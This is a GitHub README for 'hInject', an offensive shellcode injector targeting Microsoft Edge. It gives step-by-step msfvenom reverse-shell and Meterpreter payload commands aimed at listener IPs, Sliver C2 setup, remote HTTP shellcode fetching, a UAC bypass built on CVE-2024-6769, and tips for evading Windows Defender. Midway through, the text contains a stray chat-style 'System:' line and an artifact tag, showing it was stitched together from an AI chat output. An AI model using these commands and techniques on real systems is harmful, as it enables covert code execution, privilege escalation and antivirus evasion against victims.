

# hInject

**hInject** is a shellcode injector written in C, designed to inject payloads into Microsoft Edge. It is not primarily intended to bypass antivirus (AV) solutions but includes workarounds like hiding Windows APIs in the Import Address Table (IAT) using API hashing tactics.

## Features

**hInject** supports multiple shellcode delivery methods:
- **Embedded Resources**: Shellcode is embedded in the `.rsc` section of the binary.
- **Local Named Pipe**: Retrieves shellcode from a hardcoded named pipe, useful for scenarios like inter-beacon communication (e.g., grabbing shellcode from a running beacon).
- **HTTP Method**: Fetches shellcode from a remote HTTP server.
- **HEX**: Reads shellcode as hex from stdin. Note: This method does not work with the `--elevate` flag for UAC bypass due to the large size of Donut-generated shellcode.

## UAC Bypass

**hInject** includes a UAC bypass implementation for **CVE-2024-6769**, based on [fortra/CVE-2024-6769](https://github.com/fortra/CVE-2024-6769). The bypass is converted into position-independent shellcode using [Donut](https://github.com/TheWover/donut) and embedded as a resource. It can be triggered with the `--elevate` flag. The required DLLs can be pulled from a remote server. Note that the bypass is not guaranteed to work and may require administrative privileges in some cases.

For details, see the [fortra/CVE-2024-6769](https://github.com/fortra/CVE-2024-6769) repository.

## Anti-Virus Evasion Tips

**hInject** is designed to be modular and easy to modify:
- **Remove Unneeded Features**: Strip out the HTTP method if using only resource-based payloads to reduce detectability.
- **Minimize Resources**: Comment out resource-related code to reduce the `.rsc` section size and entropy, which may help evade Windows Defender.
- **Remote UAC Bypass**: Remove the embedded UAC bypass resource and pull it from an HTTP server to further minimize entropy.

In testing, **hInject** performed well against Windows Defender on a Windows 11 VM with Defender enabled, as shown in the demos below.

## Testing Environment

The tests were conducted on a Windows 11 system with Microsoft Defender enabled.

### System Information
```powershell
systeminfo | findstr /B /C:"Host Name" /C:"Os Name" /C:"Os Version"
```


### Defender Features Status
```powershell
Get-MpComputerStatus | Select-Object AMServiceEnabled, AntispywareEnabled, AntivirusEnabled, BehaviorMonitorEnabled, IoavProtectionEnabled, OnAccessProtectionEnabled, RealTimeProtectionEnabled, NISEnabled
```


### Static Analysis
The compiled **hInject** binary (without HTTP support) passed initial static checks by Windows Defender in a Windows 11 VM. Defender uploads files to the cloud for 10 seconds, but no threats were detected. Using `rasta-mouse`'s ThreatCheck tool, no bad bytes triggered static detection.

IAT analysis with [PEStudio](https://www.winitor.com/download) shows 17 flags related to `wininet.dll` and `WS2_32.dll`, as these APIs were not hashed. The `wininet.dll` is used for proxying socket calls. For a custom socket implementation, see [winnet-sockets](https://gist.github.com/Abdelhadi963/ee38afefc04ace04be76839357dcabde).


No critical APIs like `CreateRemoteThread`, `VirtualAlloc`, or `WriteProcessMemory` appear in the IAT. Functions like `GetCurrentThreadId` and `GetCurrentProcessId` are included by the C linker for logic handling, not injection. To eliminate these flags, remove the HTTP method and modify `inject.c` and `parser.h` as shown here:
- [inject.c](https://gist.github.com/Abdelhadi963/16a51e4d938269b6ae271a0ce834fe45)
- [parser.h](https://gist.github.com/Abdelhadi963/5561a581788a29e460c63bab884efa1a)

After rebuilding, only three default flags remain, and the binary retains named pipe, hex, and resource-based injection capabilities.


## Usage and Testing

Below are examples of using each injection method. The help menu is shown here:


> **Note**: The default method uses embedded resources. The process works for both HTTP-less and HTTP-enabled versions.

### Resource Method

1. Generate shellcode using `msfvenom`:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.136.181 LPORT=443 -f raw -o shellcode.bin
```

2. Encrypt the shellcode using `parser_tool.py` with a hardcoded XOR key (modify as needed):
```bash
python parser_tool.py --file shellcode.bin --xor-key ippyokai --binout coffe.bin
```


3. Embed the shellcode as a resource:
   - In Visual Studio, import the encrypted file (`coffe.bin`) as a resource named `COFFE` (or update `core.h`, `resource.h`, and `hInject.rc` if using a different name).
   - Rebuild the solution.


4. Run the resource method:
```bash
.\hInject.exe -m resource
```


The reverse shell was successfully obtained in a Commando VM:


### HEX Method

This example uses a Meterpreter shellcode as a staged payload for Sliver C2.

1. Generate shellcode:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LPORT=4444 -f raw -o shellcode.bin
```

2. Set up Sliver:
```bash
profiles new beacon --mtls 192.168.136.138:4444 --format shellcode hInject
stage-listener -u tcp://192.168.136.138:4444 -p hInject
mtls -L 192.168.136.128 -l 443
```

3. Convert shellcode to hex using `parser_tool.py`:
```bash
python3 parser_tool.py --file shellcode.bin --xor-key ippyokai --hexshellcode
```


4. Run the HEX method:
```bash
.\hInject.exe -m hex <hex_payload>
```


The beacon callback was successful, and Windows Defender did not block the process:


### Named Pipe Method

This method simulates inter-beacon communication by serving shellcode via a named pipe using the included `PipeServer` project.

1. Generate a C array from the shellcode:
```bash
python3 parser_tool.py --file shellcode.bin --xor-key ippyokai --carray --carray-out shellcode.c
```

2. Add the C array to the `PipeServer` project and rebuild.

3. Run `PipeServer` and `hInject`:


The beacon callback was successful:


### HTTP Method

This uses the full version of **hInject** with HTTP support.

1. Run the HTTP method:
```bash
.\hInject.exe -m http -i 192.168.136.138 -p 80 -f /shellcode.bin
```


The reverse shell was obtained, running as a non-elevated process (`whoami /priv` confirms):


### UAC Bypass

> **Note**: The UAC bypass uses ALPC to register a new entry for `tapi32.dll` in the SxS assembly cache, which can be unreliable and may require administrative privileges. If it fails, consider replacing or removing it.

The UAC bypass is based on [fortra/CVE-2024-6769](https://github.com/fortra/CVE-2024-6769). The `uactrigger.exe` was reimplemented to target `MsCtfMonitor.dll`, with modifications to avoid the message box popup. The bypass injects a custom `imm32.dll` containing encrypted shellcode into `msedge`.

#### Elevation Steps

1. Generate shellcode from `uactrigger.exe` using Donut:
```bash
./donut -a 2 -f 1 -o daijin.bin -i uactrigger.exe
```


2. Encrypt the shellcode:
```bash
python3 parser_tool.py -f daijin.bin --xor-key ippyokai --binout uac.bin
```

3. Embed the shellcode as a resource named `SUZUME` (or update `resource.h` and `事先

System: * The response has been cut off due to length. Here is the continuation and completion of the reformatted GitHub-compatible Markdown file, picking up from where it was truncated:

<xaiArtifact artifact_id="462c2ed8-c590-48f4-82b4-92ab47134a9a" artifact_version_id="7fd9ace7-f6c5-47cd-975a-6dd0361dae23" title="README.md" contentType="text/markdown">

`hInject.rc` if using a different name) or serve it from an HTTP server using the `--reuse` flag to minimize embedded resources.

> **Note**: Avoid embedding Donut-generated shellcode directly, as it may increase detectability due to its size.

4. Generate and embed a reverse shell shellcode in the `uac.c` file (in the `uac` project) as an embedded resource.

5. Run the UAC bypass:
```bash
.\hInject.exe -m http -i 192.168.136.138 -p 80 -f /uac.bin --elevate --reuse --tapi32-manifest TAPI32.Manifest --injector MsCtfMonitor.dll --payload uac.dll
```


The `TCMSTUP.exe` process loads `tapi32.dll`, which in turn loads the custom `imm32.dll`. If the activation context fails, it may load the default `imm32.dll` from `C:\Windows\System32`, causing the exploit to fail. Verify the loaded DLL using Process Explorer:


A successful bypass results in a shell with high integrity level and full administrative privileges:



### Named Pipe Method with UAC Bypass

The named pipe method works similarly. Provide the IP and port of the server hosting the necessary DLLs and place the Donut-generated trigger shellcode in the `PipeServer` project.

## Future Improvements

Future versions of **hInject** may include a native API shellcode injector for enhanced functionality. Contributions and custom delivery methods are welcome!

## Contributing

Feel free to extend **hInject** with custom methods or improvements. Please follow the guidelines in the `CONTRIBUTING.md` file.
